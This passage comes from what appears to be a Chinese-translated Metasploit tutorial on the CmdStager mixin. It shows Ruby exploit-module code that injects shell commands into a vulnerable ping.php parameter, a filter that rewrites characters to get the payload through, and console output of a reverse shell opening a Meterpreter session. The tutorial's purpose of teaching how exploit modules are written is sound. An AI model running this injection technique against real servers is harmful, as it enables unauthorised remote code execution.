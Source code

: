 ```ruby
    # calls some method to inject cmd to the vulnerable code.
  end

  def exploit
    print_status("Exploiting...")
    execute_cmdstager
  end

end
```
正如你所看到的，我们选择了“printf”的类型作为我们的命令stager。稍后我们会对此进行更多解释，但基本上它是将我们的有效载荷写入/tmp并执行它。
现在我们来修改execute_command方法，并根据测试用例获得代码执行。基于PoC，我们知道我们的注入字符串应该是这样的：
```
127.0.0.1+%26%26+[Malicious commands]
```
我们使用[HttpClient](https://github.com/rapid7/metasploit-framework/wiki/How-to-Send-an-HTTP-Request-Using-HTTPClient)在execute_command中执行操作.注意实际上有一些坏字符过滤使得exploit正确工作.这是预期的
```ruby
def filter_bad_chars(cmd)
  cmd.gsub!(/chmod \+x/, 'chmod 777')
  cmd.gsub!(/;/, ' %26%26 ')
  cmd.gsub!(/ /, '+')
end

def execute_command(cmd, opts = {})
  send_request_cgi({
    'method'        => 'GET',
    'uri'           => '/ping.php',
    'encode_params' => false,
    'vars_get'      => {
      'ip' => "127.0.0.1+%26%26+#{filter_bad_chars(cmd)}"
    }
  })
end

def exploit
  print_status("Exploiting...")
  execute_cmdstager
end
```
让我们运行一下 我们应该得到一个shell
```
msf exploit(cmdstager_demo) > run

[*] Started reverse TCP handler on 10.6.0.92:4444 
[*] Exploiting...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 10.6.0.92
[*] Meterpreter session 1 opened (10.6.0.92:4444 -> 10.6.0.92:51522) at 2016-06-10 11:51:03 -0500
```

# 类别
我们已经知道如何使用Msf::Exploit::CmdStager mixin,让我们来看看我们能使用的命令阶段

